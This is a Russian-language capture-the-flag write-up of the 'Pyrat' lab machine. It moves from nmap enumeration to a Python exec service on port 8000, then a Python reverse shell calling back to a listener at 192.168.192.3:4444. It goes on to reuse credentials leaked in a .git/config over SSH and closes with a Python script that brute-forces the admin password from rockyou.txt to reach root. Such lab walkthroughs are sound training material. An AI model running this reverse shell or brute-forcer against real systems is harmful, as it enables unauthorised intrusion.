






# Write-up: Pyrat

## Enum

Сканируем цель:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 10.145.162.37
```

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| fingerprint-strings:
|   GetRequest:    name 'GET' is not defined
|   HTTPOptions:   name 'OPTIONS' is not defined
|   Help:          name 'HELP' is not defined
|   ...
```

Сервис на `8000` отвечает не HTML, а Python-ошибками вида `name 'GET' is not defined`. Это значит, что сервер **исполняет присланные данные как Python-код** (что-то вроде `exec(...)` над сокетом).

## HTTP

Открываем в браузере:



Подключаемся через `nc`, чтобы посмотреть на поведение:



Действительно, на сервере выполняется Python. Значит, можно отправить произвольный Python-код.

## Reverse Shell

Готовим reverse shell на Python:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.192.3',4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(['/bin/sh','-i'])
```

Запускаем слушатель:

```bash
nc -lvnp 4444
```

Отправляем код на сервер через `nc`:



Получаем шелл.

## Git-репозиторий в /opt/dev

В `/opt/dev/.git` лежит git-репозиторий:



Смотрим сообщение последнего коммита:

```bash
cat COMMIT_EDITMSG
```

```text
Added shell endpoint
```

Смотрим конфиг репозитория:

```bash
cat config
```

```ini
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```

В конфиге — креды GitHub-пользователя `think`:

```text
think:_TH1NKINGPirate$_
```

Пробуем эти креды для SSH:

```bash
ssh think@<TARGET-IP>
# Пароль: _TH1NKINGPirate$_
```

Забираем `user.txt`:



## Восстановление исходников

Восстанавливаем файлы из репозитория:

```bash
git checkout .
```

Смотрим старую версию сервера:

```bash
cat /opt/dev/pyrat.py.old
```

```python
def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e)
```

Из кода видно:

- сервер сам сбрасывает права (`change_uid()`), если запущен от root и мы не админ — так что «притвориться root» не выйдет;
- `exec_python(client_socket, data)` — это и есть исполнение присланного кода;
- заодно видно, что шелл можно было получить просто отправив `shell`.

Также видим эндпоинт `some_endpoint`, который ведёт к `get_this_enpoint`. Этот эндпоинт — админский:



## Брутфорс пароля админа

Пишем брутфорс на Python: подключаемся, отправляем `admin`, ждём `Password:`, шлём пароль из `rockyou.txt`, смотрим на ответ.

```python
import socket
import time

HOST = '<TARGET>'
PORT = 8000

def recv_until(s, marker, timeout=3):
    s.settimeout(timeout)
    data = b''
    while marker not in data:
        try:
            chunk = s.recv(1024)
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            break
    return data

with open('/usr/share/wordlists/rockyou.txt', 'r', errors='ignore') as f:
    passwords = [line.strip() for line in f]

for pas in passwords:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)
        s.connect((HOST, PORT))

        s.sendall(b'admin\n')
        time.sleep(0.3)

        data = recv_until(s, b'Password:')
        if b'Password:' not in data:
            s.close()
            continue

        s.sendall(pas.encode() + b'\n')
        time.sleep(0.3)

        resp = recv_until(s, b'\n', timeout=2)
        s.close()

        if resp and b'incorrect' not in resp.lower() and b'Password:' not in resp:
            print(f"[+] Possible password: {pas}")
            print(f"    Response: {resp}")
            break
        else:
            print(f"[-] {pas}")

    except Exception as e:
        print(f"[!] Error with {pas}: {e}")
        continue
```

Получаем пароль администратора и root.

## Итоговая схема (Kill Chain)

`Python exec на 8000` → `Reverse shell` → `.git/config (creds think)` → `SSH as think` → `pyrat.py.old (admin endpoint)` → `брутфорс пароля admin` → `root`